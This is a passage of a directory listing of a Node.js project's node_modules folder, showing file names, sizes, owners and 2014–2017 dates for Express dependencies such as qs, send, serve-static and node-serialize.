drwxr-xr-x 47 root root   4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  150941 Aug 27  2017 db.json
-rw-r--r--  1 sun  sun    8300 Aug 27  2017 HISTORY.md
-rw-r--r--  1 sun  sun     136 Jan 14  2017 index.js
-rw-r--r--  1 sun  sun    1099 Jan 14  2017 LICENSE
-rw-r--r--  1 root root   3317 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun    3698 May 15  2017 README.md

node_modules/mime-types:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  4753 Sep  1  2017 HISTORY.md
-rw-r--r--  1 sun  sun  3663 Jul 24  2017 index.js
-rw-r--r--  1 sun  sun  1167 Jan 14  2017 LICENSE
-rw-r--r--  1 root root 3153 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  3100 Jul 24  2017 README.md

node_modules/ms:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  2764 May 16  2017 index.js
-rw-r--r--  1 sun  sun  1077 May 16  2017 license.md
-rw-r--r--  1 root root 2252 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1721 May 16  2017 readme.md

node_modules/negotiator:
total 36
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  2296 May  3  2016 HISTORY.md
-rw-r--r--  1 sun  sun  3344 May  3  2016 index.js
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 lib
-rw-r--r--  1 sun  sun  1177 Apr 27  2016 LICENSE
-rw-r--r--  1 root root 2930 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4811 May  3  2016 README.md

node_modules/negotiator/lib:
total 28
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 3 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 3082 May  3  2016 charset.js
-rw-r--r-- 1 sun sun 3507 May  3  2016 encoding.js
-rw-r--r-- 1 sun sun 3413 May  3  2016 language.js
-rw-r--r-- 1 sun sun 5358 May  3  2016 mediaType.js

node_modules/node-serialize:
total 40
drwxr-xr-x  4 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun    44 May 26  2014 index.js
drwxr-xr-x  2 sun  sun  4096 May 26  2014 lib
-rw-r--r--  1 sun  sun  1075 May 26  2014 LICENSE
-rw-r--r--  1 sun  sun    13 May 26  2014 .npmignore
-rw-r--r--  1 root root 1751 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1194 May 26  2014 README.md
drwxr-xr-x  2 sun  sun  4096 May 26  2014 test
-rw-r--r--  1 sun  sun    58 May 26  2014 .travis.yml

node_modules/node-serialize/lib:
total 12
drwxr-xr-x 2 sun sun 4096 May 26  2014 .
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 2680 May 26  2014 serialize.js

node_modules/node-serialize/test:
total 12
drwxr-xr-x 2 sun sun 4096 May 26  2014 .
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 2275 May 26  2014 index.js

node_modules/on-finished:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1694 May 26  2015 HISTORY.md
-rw-r--r--  1 sun  sun  3686 May 25  2015 index.js
-rw-r--r--  1 sun  sun  1167 Aug 15  2014 LICENSE
-rw-r--r--  1 root root 2531 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4886 May 25  2015 README.md

node_modules/parseurl:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   954 Sep  9  2017 HISTORY.md
-rw-r--r--  1 sun  sun  2774 Sep  9  2017 index.js
-rw-r--r--  1 sun  sun  1173 Sep  9  2017 LICENSE
-rw-r--r--  1 root root 2923 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  3639 Sep  9  2017 README.md

node_modules/path-to-regexp:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   694 Jul 27  2015 History.md
-rw-r--r--  1 sun  sun  3328 Jul 27  2015 index.js
-rw-r--r--  1 sun  sun  1103 Jul 27  2015 LICENSE
-rw-r--r--  1 root root 4581 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1102 Jul 27  2015 Readme.md

node_modules/proxy-addr:
total 36
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  2190 Jul 25  2017 HISTORY.md
-rw-r--r--  1 sun  sun  6027 Jul 25  2017 index.js
-rw-r--r--  1 sun  sun  1094 Jan 15  2017 LICENSE
-rw-r--r--  1 root root 2628 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4202 Mar 24  2017 README.md

node_modules/qs:
total 68
drwxr-xr-x  5 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  12062 Jun 28  2017 CHANGELOG.md
drwxr-xr-x  2 sun  sun   4096 Jun 28  2017 dist
-rw-r--r--  1 sun  sun    399 Jun 28  2017 .editorconfig
-rw-r--r--  1 sun  sun      5 May 24  2017 .eslintignore
-rw-r--r--  1 sun  sun    533 Jun 28  2017 .eslintrc
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 lib
-rw-r--r--  1 sun  sun   1654 May 24  2017 LICENSE
-rw-r--r--  1 root root  2985 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  14636 Jun 14  2017 README.md
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 test

node_modules/qs/dist:
total 28
drwxr-xr-x 2 sun sun  4096 Jun 28  2017 .
drwxr-xr-x 5 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 18858 Jun 28  2017 qs.js

node_modules/qs/lib:
total 40
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 5 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun  387 May 30  2017 formats.js
-rw-r--r-- 1 sun sun  211 Jun 14  2017 index.js
-rw-r--r-- 1 sun sun 5791 Jun 14  2017 parse.js
-rw-r--r-- 1 sun sun 6285 Jun 28  2017 stringify.js
-rw-r--r-- 1 sun sun 5066 Jun 14  2017 utils.js

node_modules/qs/test:
total 68
drwxr-xr-x 2 sun sun  4096 Sep 19  2017 .
drwxr-xr-x 5 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun   229 Jun 14  2017 .eslintrc
-rw-r--r-- 1 sun sun    81 May 30  2017 index.js
-rw-r--r-- 1 sun sun 21593 Jun 14  2017 parse.js
-rw-r--r-- 1 sun sun 20706 Jun 28  2017 stringify.js
-rw-r--r-- 1 sun sun  1432 Jun 14  2017 utils.js

node_modules/range-parser:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   832 Jun  1  2016 HISTORY.md
-rw-r--r--  1 sun  sun  2805 Jun  1  2016 index.js
-rw-r--r--  1 sun  sun  1178 Jun  1  2016 LICENSE
-rw-r--r--  1 root root 3172 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1996 Jun  1  2016 README.md

node_modules/send:
total 64
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  10491 Aug  6  2017 HISTORY.md
-rw-r--r--  1 sun  sun  22327 May 16  2017 index.js
-rw-r--r--  1 sun  sun   1128 Jan 21  2017 LICENSE
-rw-r--r--  1 root root  3296 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   8656 Feb 25  2017 README.md

node_modules/serve-static:
total 44
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  8504 Aug  6  2017 HISTORY.md
-rw-r--r--  1 sun  sun  4533 Feb 25  2017 index.js
-rw-r--r--  1 sun  sun  1189 Feb 24  2017 LICENSE
-rw-r--r--  1 root root 2845 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  7508 Feb 24  2017 README.md

node_modules/setprototypeof:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   334 Feb 20  2017 index.js
-rw-r--r--  1 sun  sun   727 Feb  6  2016 LICENSE
-rw-r--r--  1 root root 2109 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   401 Feb  6  2016 README.md

node_modules/statuses:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1796 Nov 11  2016 codes.json
-rw-r--r--  1 sun  sun   887 Nov 11  2016 HISTORY.md
-rw-r--r--  1 sun  sun  2029 Nov 11  2016 index.js
-rw-r--r--  1 sun  sun  1168 May 17  2016 LICENSE
-rw-r--r--  1 root root 3330 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2746 Nov 11  2016 README.md

node_modules/type-is:
total 36
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  3923 Mar 31  2017 HISTORY.md
-rw-r--r--  1 sun  sun  5525 Mar 19  2017 index.js
-rw-r--r--  1 sun  sun  1172 Mar 19  2017 LICENSE
-rw-r--r--  1 root root 2949 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4161 Mar 25  2017 README.md

node_modules/unpipe:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun    59 Jun 14  2015 HISTORY.md
-rw-r--r--  1 sun  sun  1118 Jun 14  2015 index.js
-rw-r--r--  1 sun  sun  1114 Jun 14  2015 LICENSE
-rw-r--r--  1 root root 2227 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1250 Jun 14  2015 README.md

node_modules/utils-merge:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   381 Jul 11  2013 index.js
-rw-r--r--  1 sun  sun  1075 Jul 11  2013 LICENSE
-rw-r--r--  1 root root 2053 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   634 Jul 11  2013 README.md
-rw-r--r--  1 sun  sun    70 Jul 11  2013 .travis.yml

node_modules/vary:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   707 Mar 20  2017 HISTORY.md
-rw-r--r--  1 sun  sun  2578 Mar 20  2017 index.js
-rw-r--r--  1 sun  sun  1094 Mar 20  2017 LICENSE
-rw-r--r--  1 root root 2632 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2716 Mar 20  2017 README.md
```
